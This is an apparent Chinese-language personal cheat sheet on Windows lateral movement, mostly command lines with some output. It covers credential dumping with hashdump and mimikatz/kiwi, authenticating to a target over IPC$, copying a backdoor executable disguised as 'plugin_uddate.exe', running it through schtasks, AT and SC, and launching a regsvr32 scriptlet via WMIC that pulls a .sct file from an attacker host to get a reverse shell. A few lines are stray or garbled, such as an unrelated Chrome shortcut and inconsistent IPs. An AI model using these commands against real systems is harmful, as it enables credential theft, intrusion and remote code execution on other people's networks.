

## 利用Windows内置工具

- IPC+Schtasks+AT
- IPC+SC(服务)
- WMIC(查询信息，补丁、账号；进程创建)
- WinRM服务

## IPC$

> IPC$,Internet Process Connection，是共享“命名管道”的资源，它是为了**让进程间通信**而开放的命名管道， 输入**可信**用户名、密码建立管道，借助该管道，可以实现加密数据的交换，访问远程计算机。

利用IPC$,需要使用Administrator账号权限。

### 利用条件

1.开放了139、445端口

2.目标机器开启IPC$文件共享服务（该服务建立的初衷是为了管理员方便的管理远程计算机）。

3.需要目标机器的管理员账号和密码

```cmd
D:\Documents>netstat -ano|findstr 445
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    192.168.66.1:54207     192.168.66.131:445     ESTABLISHED     4
  TCP    [::]:445               [::]:0                 LISTENING       4
```


### 获取管理员账号密码：

```
hashdump密码凭据获取
去cmd5.com在线解密即可
```

```
load kiwi
load mimikatz
help
#获取明文密码
cred_kerberos
```

当无法获取到明文密码时，可以采取**哈希扩展攻击**

```
存放在某个文件；
使用弱口令、口令复用；
```


### 常用命令

```
net use  \\192.168.66.131\ipc$ /user:administrator "passwd"
#该命令可能被对方防火墙拦下，报告系统错误67 找不到网络名
#查看链接情况
net use  
#查看目标主机时间
net time \\192.168.66.131 
```

```
#删除链接,并且在非交互模式下输入yes
net use \\192.168.66.131\ipc$ /del /y
net use * /del /y

```

对于同一个机器，只能对目标主机**建立一个net use链接**，建立第二个时会报错（报告账号或者密码错误）

```
#文件上传下载
copy shell.exe \\192.168.66.131\c$\windows\temp\plugin_uddate.exe
#查看目标机器中的文件
dir \\192.168.66.131\d$

copy \\192.168.66.131\d$\hello.exe d:\

```

```
# 改变代码页编码为utf-8，gbk 936
chcp 65001

#谷歌浏览器快速切换标签页
ctrl+shift+tab

```

## Schtasks

### 创建计划任务执行我的后门

```
schtasks /create /s 192.168.66.131 /u administrator /p "passwd" /sc MINUTE /mo 1 /tn test /tr "c:\\windows\\temp\\plugin_uddate.exe"
```



```
SUCCESS: The scheduled task "test" has successfully been created.
```

正常，过一分钟后木马被执行

账户输错

```
ERROR: No mapping between account names and security IDs was done.
(43,4):LogonType:
```

**注：只要执行了计划任务，一定会被系统日志记录下来。**

### tasklist查看目标机器上的进程

```
#展示详细信息
tasklist /s \\192.168.66.131 /v  
tasklist /s \\192.168.66.131 /u administrator /p "passwd"
vm3dservice.exe
VGAuthService
```

### 删除指定名称的计划任务

```cmd
schtasks /delete /s 192.168.66.131 /tn test /u administrator /p "passwd" /y
```


## AT

### 指定时间创建计划任务

```
net time \\192.168.66.131 
at  \\192.168.66.131 15:08 D:\\hello.exe
```

```
The AT command has been deprecated. Please use schtasks.exe instead.
Added a new job with job ID = 1
```

**注：At在Windows Server 2012等新版系统中被弃用**


```
schtasks /delete /s 192.168.66.131 /tn At1 /u administrator /p "passwd" /y
```

## SC

### 创建服务执行

**注：binpath= 后面必须有空格**

```
sc \\192.68.66.131 create test binpath= "D:\\hello.exe" obj= "Administrator" password= passwd 
sc \\192.168.66.131 start test
```

### 查看服务是否创建成功

```
sc \\192.68.66.131 qc test
```

## WMIC

 Windows Management Instrumentation 

### 管理远程计算机node的进程process

借助regsvr32,进而反弹shell

```
wmic /node:192.168.66.131 /user:administrator /password:passwd process call create "regsvr32" /s /n /u /i:http:192.168.66.1:8080/fesddasji.sct scrobj.dll"
```

注：wmic没有回显，可以借助wmicexec.vbs脚本实现回显。

```
#列出简洁的系统信息
wmic os list brief
```


## MSF

```
jobs
#获取建立的会话
sessions
# 选择一个会话
sessions 5
#获取用户名
meterpreter:getuid
#退出当前会话
exit

```

